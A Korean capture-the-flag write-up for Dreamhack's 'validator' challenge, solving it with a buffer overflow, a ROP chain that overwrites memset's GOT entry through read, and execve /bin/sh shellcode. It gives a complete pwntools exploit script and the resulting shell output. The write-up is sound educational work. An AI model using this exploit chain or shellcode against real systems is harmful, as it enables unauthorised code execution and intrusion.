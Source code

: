 # validator

- [문제 페이지](https://dreamhack.io/wargame/challenges/94)

## 문제 해설
이번 문제는 c코드가 주어지지 않았다.

따라서, ida와 gdb를 같이 사용하며 문제 풀이를 진행하였다.

먼저 ida프로에서 디컴파일된 c코드를 먼저 살펴보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char* correct= "DREAMHACK!";

int validate(char *s, unsigned int a2)
{
  unsigned int i; // [rsp+1Ch] [rbp-4h]
  signed int j; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 9; ++i )
  {
    printf("i: %d\n", i);
    if ( s[i] != correct[i] )
      exit(0);
  }
  for ( j = 11; a2 > j; ++j )
  {
    printf("j: %d\n", j);
    printf("%d %d\n", s[j], s[j+1]);
    if ( (unsigned int)s[j] != s[j + 1] + 1 )
      exit(0);
  }
  return 0LL;
}

int main(int argc, const char **argv, const char **envp)
{
  char s[0x80]; // [rsp+0h] [rbp-80h]

  memset(s, 0, 16uLL);
  read(0, s, 1024uLL);
  validate(s, 128uLL);
  return 0;
}
```
이는 ida를 통해 디컴파일된 코드를 실제 컴파일 가능한 c코드로 변형한 것이다.

인덱스가 0~9까지의 s가 "DREAMHACK!"인지, 인덱스가 11~128까지의 s가 s[i] = s[i+1]+1인지 판단하는 validate코드를 거친다.

이를 우회하기 위한 코드를 살펴보자.

```python
# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7
```
payload를 앞서서 설명한 validate를 통과할 수 있도록 작성한 코드이다.

이제, /bin/sh를 실행시키기 위한 코드가 필요하다.

먼저 canary가 존재하지 않기 때문에, bof가 가능하다.

하지만, bof를 위해 /bin/sh를 실행시키 위한 함수가 파일 내에 존재하지 않고, libc파일 또한 주어지지 않았다.

따라서, rop를 발생시켜 /bin/sh를 실행시킬 수 있다.

파일 내에는 read함수가 존재한다. 이를 활용하여 memset의 got를 shellcode로 변경한 후 이를 실행하면 된다.

rop를 위한 가젯을 다음과 같다.

```python
# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b
```

s는 $rbp-0x80에 존재하기 때문에 이전 0x88만큼은 채워두어야 한다.

이제, rop를 발생시키자.
```python
# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)
```
이를 통해 read함수가 실행될 것이기 때문에 memset 함수를 shellcode로 변경해보자.

shellcode는 31bit shellcode를 사용했다.

다른 shellcode모두 사용해보았으나, 31bit shellcode만 /bin/sh를 성공적으로 실행시켰다.

```python
# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)
```
shellcode를 넣는 코드는 다음과 같다.

이제 모든 코드를 종합해 작성하면,
```python
from pwn import *

# gadgets
pop_rdi =       0x00000000004006f3
pop_rsi_r15 =   0x00000000004006f1
pop_rdx =       0x000000000040057b

# remote connect
#p = process("./validator_dist")
p = remote("host1.dreamhack.games", 11534)
e = ELF("./validator_dist")

# validate
payload = b"DREAMHACK! "
i = 127;
while(True):
    if(len(payload) == 129):
        break;
    payload += (i).to_bytes(1, byteorder="little")
    i -= 1
payload += b"a"*7

# ROP
payload += p64(pop_rdi)
payload += p64(0)

payload += p64(pop_rsi_r15)
payload += p64(e.got["memset"])
payload += p64(0)

payload += p64(pop_rdx)
payload += p64(0xffff)

payload += p64(e.plt["read"])

payload += p64(e.got["memset"])

p.send(payload)

# shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
p.send(shellcode)

p.interactive()
```
이다.

이를 실행시키면, 
```
[*] Switching to interactive mode
$ ls
flag
run.sh
validator
$ cat flag
DH{****************************************}
```
이다. 

![success](image.png)

## 풀이 소감

dreamhack의 system hack 기본의 마지막 문제이다보니 이전에 배운 많은 기법을 사용할 수 있었다. bof, 코드 읽기, rop 등을 통해 학습과정을 통해 배운 기법을 사용하며, 다시 한번 정리할 수 있는 풀이 과정이 됐다.

